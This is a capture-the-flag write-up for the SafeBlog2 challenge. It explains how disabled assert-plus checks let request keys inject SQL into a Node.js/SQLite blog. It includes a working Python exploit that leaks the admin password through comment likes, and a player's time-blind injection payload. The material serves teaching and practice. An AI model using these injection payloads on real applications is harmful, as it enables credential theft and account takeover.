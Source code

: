 ## SafeBlog2

Using WordPress is a bit too dangerous, so I'm developing my own blogging platform, SafeBlog2, to have full control over its security.

P.S. It is recommended to test your exploit locally before creating an online instance.

---

The task was inspired by MapleCTF 2023 `Data Explorer`, looking at environment variables causing `assert` to fail and SQL injection in the case of a limited number of queries.

Directly auditing the source code in the zip, we found that there doesn't seem to be any problem, the simple ORM implemented in `utils/db.js` uses pre-compiled binding parameters, and column names are checked with `assert`, so it seems to be flawless?

A closer inspection reveals that `assert` is used here as [`assert-plus`](https://www.npmjs.com/package/assert-plus), and a quick look of the documentation reveals that this library provides the ability to disable all `assert`s by setting an environment variable.

> Lastly, you can opt-out of assertion checking altogether by setting the environment variable `NODE_NDEBUG=1`

Looking at the `compose.yml` in the zip, we see that `NODE_NDEBUG=1` is indeed set, so we can just ignore all the `assert`s in the code, i.e., the column name checking is disabled.

> Did you know?
> 
> A similar capability exists in Python, and without having to introduce a third-party library, you can disable all `assert` in your code by setting the `PYTHONOPTIMIZE=1` environment variable.

At this point, going back to look for places in the code that directly accept user input as a column name, we found a problem with the comment liking API:

```javascript
app.get('/comment/like', async (req, res) => {
  try {
    const comments = await runQuery('comments', req.query);
    comments.forEach((comment) => {
      db.run('UPDATE comments SET likes = likes + 1 WHERE id = ?', comment.id);
    });
    res.redirect(req.headers.referer ?? '/');
  } catch {
    res.status(500).render('error', { message: 'Internal Server Error' });
  }
});
```

`req.query` is all the `GET` parameters passed in by the user, passed directly to `runQuery()` as `filter` parameters, and the column name checking in the `filterBuilder()` called by `runQuery()` fails, so all the keys of `req.query` are spliced into the SQL statement as column names. The values use precompiled binding parameters, so the SQL statement can be manipulated arbitrarily by controlling the key names, which theoretically allows for injection.

```javascript
function filterBuilder(model, filter) {
  return {
    where:
      'WHERE ' +
      Object.keys(filter)
        .map((key, index) => {
          /* Assertion ignored since NODE_NDEBUG=1 */
          // assert(models[model].includes(key), `Invalid field ${key} for model ${model}`);
          return `${key} = ?`;
        })
        .join(' AND '),
    params: Object.values(filter),
  };
}

async function runQuery(model, filter, sort) {
  queries++;
  const { where, params } = filter ? filterBuilder(model, filter) : { where: '', params: [] };
  const order_by = sort ? `ORDER BY ${sortBuilder(model, sort)}` : '';
  return new Promise((resolve, reject) => {
    db.all(`SELECT * FROM ${model} ${where} ${order_by}`, params, (err, rows) => {
      if (err) {
        reject(err);
      } else {
        resolve(rows);
        if (queries >= 4) {
          db.run(`UPDATE admins SET password = "${passwordGenerator(16)}" WHERE id = 1`);
          queries = 0;
        }
      }
    });
  });
}
```

However, if you read the code for `runQuery()`, you'll see that the password for `admin` is reset every 4 times you query with `runQuery()`, so you obviously can't just inject it to get the password, so what should you do?

### Expected solution
With a little thought, it's easy to see that the like API likes every comment in the result set, and we can create unlimited comments (creating comments without `runQuery()` won't trigger a password reset), so by cleverly constructing the SQL statement, we can indirectly leak out `admin`'s password by using the number of likes of the comments in only 3 queries, and the last one is used to login to `admin`'s account to get a Flag. .

There are many ways to construct a SQL statement, and the writeups of players are really different, but they're all pretty much the same, and the basic idea is the same. For reference, here's what the questioner did in a clumsy way.

Considering that the `admin` password string is 32 long, and each character has 16 possibilities from `0` - `F`, you can map each possibility of each character one-to-one to 512 comments. Pick the comment that corresponds to each character and like it. Based on the `id` of the comment that was liked, we can recover the password and log in to get the Flag.

```python
import re
import requests
import bs4

url = "http://<instance_url>/"


def create_comments():
    for i in range(512):
        print(i)
        # ID starts from 51
        r = requests.get(
            url + "comment/new",
            params={"name": str(51 + i), "content": str(51 + i), "post_id": 10},
        )
        assert r.status_code == 200


def generate_payload():
    query = "{} AND '5'"
    char = "id = IIF(unicode((select substr(password,{},1) from admins)) <= 57, unicode((select substr(password,{},1) from admins)) - 47, unicode((select substr(password,{},1) from admins)) - 86) + 50 + 16 * {}"
    payload = {
        query.format(
            " OR ".join([char.format(i + 1, i + 1, i + 1, i) for i in range(32)])
        ): 5
    }
    print(payload)
    return payload


def send_payload():
    r = requests.get(
        url + "comment/like", params=generate_payload(), allow_redirects=False
    )
    # Disallow redirect to avoid triggering another SQL query
    assert r.status_code == 302


def get_result():
    hex_letters = "0123456789abcdef"
    r = requests.get(url + "post/10")
    soup = bs4.BeautifulSoup(r.text, "html.parser")
    article = soup.find_all("article")[1]
    lis = article.find_all("li")
    res = ""
    for i, li in enumerate(lis[:32]):
        id = int(re.search(r"(\d+)", li.text).group(1))
        res += hex_letters[id - 50 - i * 16 - 1]
    return res


def get_flag():
    password = get_result()
    print("[+] Admin password: " + password)
    r = requests.get(url + "admin", params={"username": "admin", "password": password})
    flag = bs4.BeautifulSoup(r.text, "html.parser").find("code").text
    print("[+] Flag: " + flag)


create_comments()
print("[+] Comments created.")
send_payload()
print("[+] Payload sent.")
get_flag()
```

### Unexpected solution

The questioner was careless and the code to reset the password was written in the wrong place, so 4 players solved the question unintentionally!

```javascript
if (err) {
  reject(err);
} else {
  resolve(rows);
  if (queries >= 4) {
    db.run(`UPDATE admins SET password = "${passwordGenerator(16)}" WHERE id = 1`);
    queries = 0;
  }
}
```

It's easy to see that the counter only accumulates if the query succeeds, so if the SQL statement is constructed in a way that triggers a query error, and at the same time is capable of leaking information through a delay, it can be done as a normal time-blind injection, ignoring the count limit altogether.

Specifically, the delay can be achieved by `RANDOMBLOB()` (since `sqlite` doesn't have `SLEEP()`), and the query error can be triggered by `load_extension(1)` as long as the delay precedes the triggering of the query error, as shown in the following solution from the player `__No0♭___` for reference.

```python
def check(curr, mid):
    burp0_url = f"{HOST}/comment/like"
    burp0_headers = {"Connection": "close"}
    response = requests.get(burp0_url, params={f"'1' = ? OR CASE WHEN (SELECT unicode(substr(password,{curr},1)) FROM admins WHERE id = 1)<={mid} THEN (1=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(250000000/2)))) OR load_extension(1/0)) ELSE load_extension(1/0) END;--":"zz"}, headers=burp0_headers, allow_redirects=False, proxies=PROXY)
    return response.elapsed.total_seconds() > 0.5
```

But it doesn't feel like there's much of a difference in difficulty between unintended and intended solutions (?). So it doesn't matter.
